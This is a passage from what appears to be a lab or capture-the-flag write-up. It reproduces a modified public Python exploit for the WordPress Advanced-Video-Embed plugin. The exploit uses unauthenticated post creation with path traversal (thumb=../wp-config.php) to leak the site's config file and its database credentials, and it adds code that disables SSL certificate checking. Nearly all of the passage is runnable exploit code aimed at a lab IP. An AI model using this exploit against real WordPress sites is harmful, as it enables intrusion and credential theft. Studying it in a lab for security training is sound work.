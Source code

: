 ```
urllib2.URLError: <urlopen error [SSL: CERTIFICATE_VERIFY_FAILED] certificate verify failed (_ssl.c:727)>
```

Looks like Python is complaining about the invalid SSL certificate. We'll modify the exploit to ignore SSL certificate warnings and try again.

For reference, the final exploit code is:

`$ cat 39646_modified.py`
```python
#!/usr/bin/env python

# Exploit Title: Advanced-Video-Embed Arbitrary File Download / Unauthenticated Post Creation
# Google Dork: N/A
# Date: 04/01/2016
# Exploit Author: evait security GmbH
# Vendor Homepage: arshmultani - http://dscom.it/
# Software Link: https://wordpress.org/plugins/advanced-video-embed-embed-videos-or-playlists/
# Version: 1.0
# Tested on: Linux Apache / Wordpress 4.2.2

#	Timeline
#	03/24/2016 - Bug discovered
#	03/24/2016 - Initial notification of vendor
#	04/01/2016 - No answer from vendor, public release of bug 


# Vulnerable Code (/inc/classes/class.avePost.php) Line 57:

#  function ave_publishPost(){
#    $title = $_REQUEST['title'];
#    $term = $_REQUEST['term'];
#    $thumb = $_REQUEST['thumb'];
# <snip>
# Line 78:
#    $image_data = file_get_contents($thumb);


# POC - http://127.0.0.1/wordpress/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=[FILEPATH]

# Exploit - Print the content of wp-config.php in terminal (default Wordpress config)

import random
import urllib2
import re

import ssl # addition
ssl._create_default_https_context = ssl._create_unverified_context # addition

url = "https://10.1.1.129:12380/blogblog" # insert url to wordpress # change

randomID = long(random.random() * 100000000000000000L)

objHtml = urllib2.urlopen(url + '/wp-admin/admin-ajax.php?action=ave_publishPost&title=' + str(randomID) + '&short=rnd&term=rnd&thumb=../wp-config.php')
content =  objHtml.readlines()
for line in content:
	numbers = re.findall(r'\d+',line)
	id = numbers[-1]
	id = int(id) / 10

objHtml = urllib2.urlopen(url + '/?p=' + str(id))
```
